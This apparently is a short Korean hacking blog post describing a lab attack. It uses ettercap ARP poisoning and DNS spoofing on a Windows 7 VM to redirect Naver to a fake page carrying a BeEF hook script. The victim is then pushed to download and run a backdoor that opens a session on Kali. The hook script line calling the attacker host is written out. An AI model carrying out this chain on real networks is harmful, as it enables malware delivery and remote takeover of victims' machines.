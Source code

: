 ```yaml
---
layout: post
cover: 'assets/images/cover6.jpg'
title:  DNS Spoofing
date:   2017-07-26 22:52:01
tags: hacking
subclass: 'post tag-fiction'
categories: 'pjya0321'
navigation: True
logo: 'assets/images/ghost.png'
---
```



## DNS스푸핑을 통한 악성코드 배포
-----

크게 두 단계로 나누면  
1.내장툴 ettercap 을 사용해서 DNS스푸핑 공격을 한다.  
2.beef를 사용해서 백도어가 다운되게 리다이렉션 한다.  

![1](assets/postimage/DNS1.png)

etter.dns 파일을 위와같이 수정해준다.  

![2](assets/postimage/DNS2.png)

아파치서버를 실행시킨다.  

![3](assets/postimage/DNS3.png)

칼리리눅스 내장툴인 ettercap 을 실행시킨다.  

1. eth0을 잡고 호스트를 스캔한다.  
2. 게이트웨이를 타겟1에/ 공격대상을 타겟2로 설정해준다.  
3. ARP 포지셔닝에서 Sniff remote connection을 체크한다.  
4. 플러그인에서 dns_spoof 를 설정한다.  

![4](assets/postimage/DNS4.png)

공격대상인 윈7 가상환경에서 네이버에 접속하면 미리 만들어둔  
/var/www/html 경로의 index.html 의 내용이 연결된다.  

![5](assets/postimage/DNS5.png)

Beef 서버를 실행시키고. Hook URL을 위에 연결된 index.html에 넣어준다.  

script src="http://192.168.254.129:3000/hook.js"type="text/javascript"  

![6](assets/postimage/DNS6.png)

/var/www/html 경로에 악성백도어를 저장하고,  
UI패널을 열어서 (id/pw = beef/beef) 로그인을 한 뒤,리다이렉션 주소에 악성백도어 파일명.확장자명 을 입력한다.  
그리고 적용시킨다.  

![7](assets/postimage/DNS7.png)

윈도우7 화면에는 kangol.exe 파일이 다운로드가 되었다.  
(중간에 네이버처럼 보이도록 연결될 html을 수정했다)  

![8](assets/postimage/DNS8.png)


윈도우7에서 다운받은 백도어를 실행시키면 칼리에서 세션이 열린것을 확인 할 수 있다.  



